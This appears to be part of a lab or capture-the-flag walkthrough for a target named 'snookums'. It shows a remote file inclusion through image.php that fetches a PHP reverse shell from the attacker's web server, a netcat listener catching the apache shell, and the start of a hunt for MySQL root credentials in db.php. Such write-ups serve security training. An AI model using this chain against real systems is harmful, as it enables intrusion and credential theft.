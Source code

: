 Let's set up this exploit beginning with our payload.

## Exploitation

### Remote Code Execution

We will use `/usr/share/webshells/php/php-reverse-shell.php` as our payload, replacing lines 49 and 50 with our web server's IP address and the listening port that will catch our shell.

```
$ip = '192.168.118.3';  // CHANGE THIS
$port = 445;       // CHANGE THIS
```

Next, we'll start a python web server on port 80.

```
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let's set up a netcat listener on port 445 to catch the shell. Then, with everything in place, we'll run the exploit by browsing to [http://192.168.120.135/image.php?img=http://192.168.118.3/shell.php](http://192.168.120.135/image.php?img=http://192.168.118.3/shell.php), which executes and returns our reverse shell:

```
kali@kali:~$ sudo nc -lvp 445
listening on [any] 445 ...
192.168.120.135: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.135] 46238
Linux snookums 3.10.0-1127.10.1.el7.x86_64 #1 SMP Wed Jun 3 14:28:03 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:59:07 up 2 min,  0 users,  load average: 0.07, 0.09, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-4.2$
```

## Escalation

### MySQL Credentials Recovery

An inspection of the target reveals a useful **/var/www/html/db.php** file that contains MySQL root user credentials:

```
sh-4.2$ cd /var/www/html && ls -lah
cd /var/www/html && ls -lah
total 76K
drwxr-xr-x. 8 root root 4.0K Jun 10 10:54 .
drwxr-xr-x. 4 root root   33 Jun  9 10:17 ..
-rw-r--r--. 1 root root 4.0K Jun  8 13:46 README.txt
-rw-r--r--. 1 root root 1.7K Jun  8 13:46 UpgradeInstructions.txt
drwxr-xr-x. 2 root root   44 Jun 10 09:32 css
-rw-r--r--. 1 root root  146 Jun  8 14:45 db.php
-rw-r--r--. 1 root root 6.3K Jun  8 13:46 embeddedGallery.php
-rw-r--r--. 1 root root 2.1K Jun  8 13:46 functions.php
-rw-r--r--. 1 root root 4.5K Jun  8 13:57 image.php
drwxr-xr-x. 3 root root  225 Jun 10 09:32 images
-rw-r--r--. 1 root root 2.7K Jun 10 10:36 index.php
drwxr-xr-x. 2 root root  142 Jun 10 09:32 js
-rw-r--r--. 1 root root  19K Jun  8 13:46 license.txt
```